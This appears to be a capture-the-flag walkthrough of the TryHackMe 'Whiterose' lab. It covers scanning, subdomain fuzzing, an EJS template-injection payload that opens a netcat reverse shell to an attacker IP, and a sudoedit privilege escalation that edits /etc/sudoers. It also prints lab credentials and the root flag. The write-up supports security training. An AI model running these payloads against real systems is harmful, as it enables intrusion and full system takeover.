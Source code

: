 ```yaml
---
title: "TryHackMe - Whiterose Walkthrough"
date: 2024-12-22
categories: [TryHackMe]
tags: [SSTI, RCE, Privilege Escalation]
image: assets/images/thm-cover/whiterose-Cover.jpg
---
```


# TryHackMe - Whiterose Walkthrough

---

## Initial Information
- **Username:** Olivia Cortez  
- **Password:** olivi8  

---

## Step 1: Nmap Scan

Run an Nmap scan to identify open ports and services:

```bash
sleep33@THM:~$ nmap -v -sVC -p- -oN nmap.txt $IP
```

### Results:
- **Port 22 (SSH):** OpenSSH 7.6p1 Ubuntu  
- **Port 80 (HTTP):** nginx 1.14.0 (Ubuntu)  

---

## Step 2: Configure Hosts File

Add the following to your `/etc/hosts` file:

```plaintext
sleep33@THM:~$ echo "10.246.13 cyprusbank.thm" | sudo tee -a /etc/hosts
```

---

## Step 3: Subdomain Enumeration

Enumerate subdomains using `ffuf`:

```bash
sleep33@THM:~$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1
```

### Found Subdomains:
- **www**: [200 OK]  
- **admin**: [302 Redirect]  

Add the following to your `/etc/hosts`:

```plaintext
sleep33@THM:~$ echo "10.246.13 admin.cyprusbank.thm" | sudo tee -a /etc/hosts
```

---

## Step 4: Admin Panel Access

1. Visit `http://admin.cyprusbank.thm/`.
2. Log in with:
   - **Username:** Olivia Cortez  
   - **Password:** olivi8  

---

## Step 5: Messages Exploration

Navigate through messages using the following URL format:

```bash
sleep33@THM:~$ curl http://admin.cyprusbank.thm/messages/?c=<number>
```

### Key Findings:
- **Credentials:**  
  ```plaintext
  GayleBev: p~]P@5!6;rs558:q
  ```
- **Phone Number:**  
  ```plaintext
  Tyrell Wellick: 842-029-5701
  ```

---

## Step 6: Exploiting SSTI (Server-Side Template Injection)

### Exploitation
Send a POST request to `/settings` using the following payload:

```bash
sleep33@THM:~$ curl -X POST -d "name=admin&password=admin&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('nc -e /bin/bash 10.14.91.33 4443');" http://admin.cyprusbank.thm/settings
```

---

## Step 7: Reverse Shell Setup

Set up a listener on your local machine:

```bash
sleep33@THM:~$ nc -lvnp 4443
```

---

## Step 8: Privilege Escalation

### Check Sudo Permissions

```bash
sleep33@THM:~$ sudo -l
```

### Exploit `sudoedit`

1. Export the editor:
   ```bash
   sleep33@THM:~$ export SUDO_EDITOR='nano -- /etc/sudoers'
   ```
2. Run:
   ```bash
   sleep33@THM:~$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
   ```

### Modify Sudoers File:
Add the following:

```plaintext
web ALL=(ALL:ALL) NOPASSWD: ALL
```

---

## Step 9: Gain Root

Switch to the root user:

```bash
sleep33@THM:~$ sudo bash
```

Navigate to `/root` and read the flag:

```bash
sleep33@THM:~$ cd /root
sleep33@THM:~$ cat root.txt
```

**Root Flag:**  
```plaintext
THM{4nd_uR_p4ck4g3s}
```

---
